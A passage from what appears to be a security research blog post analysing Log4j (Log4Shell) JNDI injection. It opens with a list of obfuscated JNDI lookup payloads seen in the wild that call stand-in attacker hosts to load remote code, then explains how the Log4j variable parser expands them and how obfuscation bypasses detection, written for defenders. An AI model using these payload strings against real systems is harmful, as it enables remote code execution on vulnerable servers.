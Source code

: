 	*	`${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attacker_controled_website/payload_to_be_executed}`
	*	`${${env:TEST:-j}ndi${env:TEST:-:}${env:TEST:-l}dap${env:TEST:-:}attacker_controled_website/payload_to_be_executed}`
	*	`${jndi:${lower:l}${lower:d}ap://attacker_controled_website/payload_to_be_executed}`
	*	`${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://attacker_controled_website/payload_to_be_executed}`
	*	`${${::-j}ndi:`
	*	`${${::-j}nd${::-i}:`
	*	`${jndi:ldap://127.0.0.1#evilhost.com:1389/a}`

Notice that most (if not all) of these examples come from analyzing attack attempts seen in the wild, which is very valuable and provides immediate action for defenders. However, the list includes some examples which are not valid exploits (remember that attackers are spraying the Internet with potentially automatically generated exploit tests) and, more importantly, a list of examples does not provide a comprehensive understanding or explanations of how attackers could find new obfuscation techniques, which is critically important to designing defense mechanisms. In the description below, we analyze the Log4j variable parser to understand what exploits are valid and describe examples of new, valid obfuscation techniques that we have tested in our lab. 

Analyzing the Log4j variable parser
===================================

Whenever the Log4j message parser encounters a log message that contains a variable of the form `${prefix:value:-default}`, it will attempt to expand the expression (the characters `${.*}` denote the boundaries of a variable). The `prefix` part of the variable is extracted, and according to the type of prefix, a corresponding [Lookup Plugin](https://logging.apache.org/log4j/2.x/manual/lookups.html) will be called, and `value` will be passed to it. In case the result of the expansion is null, the `default` value will be used. 

A plugin will attempt to expand the variable and will paste the result into the log message. Log4j may be configured with an arbitrary set of these plugins. For example, for the above exploit payloads to work, the [JNDI Lookup](https://logging.apache.org/log4j/2.x/manual/lookups.html#JndiLookup) plugin must be enabled. Understanding how these plugins work is crucial for determining the capabilities of attackers to obfuscate the attack payloads. 

The Log4j message parser handles variables recursively starting from the "innermost" variable. For example, the variables of the form `${hello: ${world:123}}` will be evaluated in the following way: the parser will first expand the variable `${world:123}` and put the result into the upper-level variable, and then proceed with expanding `${hello: ….}`. 

In variables, no whitespaces are allowed, and the variables are located by the presence of the two consecutive characters $ and {. This means that some obfuscation attempts observed in the wild such as `$%7Bjndi:ldap://<payload_path>%7D` are likely unsuccessful, unless the vulnerable application decodes characters such as `%7B` into `{` before passing the decoded message into Log4j. We discuss a couple of different obfuscation techniques that we came up with in the next section. Also, obfuscation attempts that use the `${upper:.*}` variable expansion (as opposed to `${lower:.*}`) may not work well with the JNDI plugin since upper case letters in the URI are not considered valid.

A researcher brandonshi123 has a pretty good [overview](https://y4y.space/2021/12/10/log4j-analysis-more-jndi-injection/) of the moving parts of the vulnerable implementation, however, we believe that the method `substitute()` (member of the `StrSubstitutor` class), deserves a special mention. The method expands individual variables recursively and it exhibits the ["shotgun parser"](http://langsec.org/papers/langsec-cwes-secdev2016.pdf) antipattern that we have seen a lot during our [Project Memoria](https://www.forescout.com/research-labs/project-memoria/) research. Specifically, attackers can use various Lookup Plugins to bypass payload detection, exfiltrate data, and cause Denial-of-Service attacks. 
